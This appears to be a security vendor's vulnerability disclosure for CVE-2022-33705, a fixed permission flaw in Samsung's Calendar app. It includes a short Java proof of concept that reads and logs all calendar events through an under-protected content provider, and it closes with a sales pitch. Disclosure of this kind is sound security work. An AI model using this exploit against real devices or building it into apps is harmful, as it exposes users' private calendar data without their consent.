

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Calendar</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.calendar</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.04.02</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.07.07</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-33705">CVE-2022-33705</a> (SVE-2022-0825)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$980</td>
    </tr>
</table>

# Description

Oversecured report:


Oversecured also found many other vulnerabilities in the `com.samsung.android.app.calendar.model.settings.provider.PreferenceProvider` provider. The thing is that this provider acts as a proxy to access the `CalendarContract.Events.CONTENT_URI` system provider to store calendar events, which requires `dangerous` permission. But this proxy provider requires only `normal` permission, which reduces security.

**Proof of Concept**

File `AndroidManifest.xml`:
```xml
<uses-permission android:name="com.sec.android.app.calendar.permission.READ_CALENDAR_SETTINGS" />
```

File `MainActivity.java`:
```java
Uri uri = Uri.parse("content://com.sec.android.calendar.preference/Event");
Cursor cursor = getContentResolver().query(uri, null, null, null, null);
if (cursor.moveToFirst()) {
    do {
        StringBuilder sb = new StringBuilder();
        for (int i = 0; i < cursor.getColumnCount(); i++) {
            if(sb.length() > 0) {
                sb.append(", ");
            }
            sb.append(cursor.getColumnName(i) + " = " + cursor.getString(i));
        }
        Log.d("evil", sb.toString());
    } while (cursor.moveToNext());
}
```

## References

- [Oversecured Blog. Common mistakes when using permissions in Android](https://blog.oversecured.com/Common-mistakes-when-using-permissions-in-Android/)

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.